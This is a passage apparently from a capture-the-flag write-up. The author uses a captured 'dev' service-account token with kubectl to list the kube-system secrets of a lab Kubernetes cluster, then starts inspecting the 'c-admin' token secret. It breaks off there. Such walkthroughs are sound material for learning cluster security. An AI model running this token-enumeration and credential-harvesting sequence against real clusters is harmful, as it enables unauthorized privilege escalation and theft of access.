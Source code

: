 
dev can `get` and `list` the secrets resource.

There’s a bunch of secrets available:

    
    
    oxdf@parrot$ kubectl get secrets -n kube-system --token $(cat dev-token) --server https://10.10.10.235:8443 --certificate-authority ca.crt
    NAME                                             TYPE                                  DATA   AGE
    attachdetach-controller-token-5dkkr              kubernetes.io/service-account-token   3      81d
    bootstrap-signer-token-xl4lg                     kubernetes.io/service-account-token   3      81d
    c-admin-token-tfmp2                              kubernetes.io/service-account-token   3      81d
    certificate-controller-token-thnxw               kubernetes.io/service-account-token   3      81d
    clusterrole-aggregation-controller-token-scx4p   kubernetes.io/service-account-token   3      81d
    coredns-token-dbp92                              kubernetes.io/service-account-token   3      81d
    cronjob-controller-token-chrl7                   kubernetes.io/service-account-token   3      81d
    daemon-set-controller-token-cb825                kubernetes.io/service-account-token   3      81d
    default-token-l85f2                              kubernetes.io/service-account-token   3      81d
    deployment-controller-token-cwgst                kubernetes.io/service-account-token   3      81d
    disruption-controller-token-kpx2x                kubernetes.io/service-account-token   3      81d
    endpoint-controller-token-2jzkv                  kubernetes.io/service-account-token   3      81d
    endpointslice-controller-token-w4hwg             kubernetes.io/service-account-token   3      81d
    endpointslicemirroring-controller-token-9qvzz    kubernetes.io/service-account-token   3      81d
    expand-controller-token-sc9fw                    kubernetes.io/service-account-token   3      81d
    generic-garbage-collector-token-2hng4            kubernetes.io/service-account-token   3      81d
    horizontal-pod-autoscaler-token-6zhfs            kubernetes.io/service-account-token   3      81d
    job-controller-token-h6kg8                       kubernetes.io/service-account-token   3      81d
    kube-proxy-token-jc8kn                           kubernetes.io/service-account-token   3      81d
    namespace-controller-token-2klzl                 kubernetes.io/service-account-token   3      81d
    node-controller-token-k6p6v                      kubernetes.io/service-account-token   3      81d
    persistent-volume-binder-token-fd292             kubernetes.io/service-account-token   3      81d
    pod-garbage-collector-token-bjmrd                kubernetes.io/service-account-token   3      81d
    pv-protection-controller-token-9669w             kubernetes.io/service-account-token   3      81d
    pvc-protection-controller-token-w8m9r            kubernetes.io/service-account-token   3      81d
    replicaset-controller-token-bzbt8                kubernetes.io/service-account-token   3      81d
    replication-controller-token-jz8k8               kubernetes.io/service-account-token   3      81d
    resourcequota-controller-token-wg7rr             kubernetes.io/service-account-token   3      81d
    root-ca-cert-publisher-token-cnl86               kubernetes.io/service-account-token   3      81d
    service-account-controller-token-44bfm           kubernetes.io/service-account-token   3      81d
    service-controller-token-pzjnq                   kubernetes.io/service-account-token   3      81d
    statefulset-controller-token-z2nsd               kubernetes.io/service-account-token   3      81d
    storage-provisioner-token-tk5k5                  kubernetes.io/service-account-token   3      81d
    token-cleaner-token-wjvf9                        kubernetes.io/service-account-token   3      81d
    ttl-controller-token-z87px                       kubernetes.io/service-account-token   3      81d
    

Working down the list, the first one I picked to play with was `c-admin-token-
tfmp2`.

    
    
    oxdf@parrot$ kubectl describe secret c-admin-token-tfmp2 -n kube-system --token $(cat dev-token) --server https://10.10.10.235:8443 --certificate-authority ca.crt
    Name:         c-admin-token-tfmp2
    Namespace:    kube-system
    Labels:       <none>
    Annotations:  kubernetes.io/service-account.name: c-admin
                  kubernetes.io/service-account.uid: 2463505f-983e-45bd-91f7-cd59bfe066d0
    